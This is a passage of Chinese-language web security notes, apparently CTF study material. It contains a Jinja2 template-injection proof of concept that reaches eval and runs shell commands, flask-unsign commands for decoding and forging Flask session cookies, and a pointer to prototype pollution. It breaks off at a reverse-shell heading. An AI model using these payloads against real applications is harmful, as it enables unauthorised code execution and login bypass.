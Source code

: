 利用POC：

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```







### flask session解密

由于存储在客户端所以可以被解密

> pip install flask-unsign
>
> flask-unsign --decode --cookie .xxxxxxxxxxxxxxxxxxxxxxx.xxxxxxxxx

```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' eyJsb2dnZWRfaW4iOnRydWV9.XDuW-g.cPCkFmmeB7qNIcN-ReiN72r0hvU
# 知道secret的情况下篡改session 
```









## node.js相关

### 原型链污染

参考p神博客：

https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html







## 反弹shell

### python
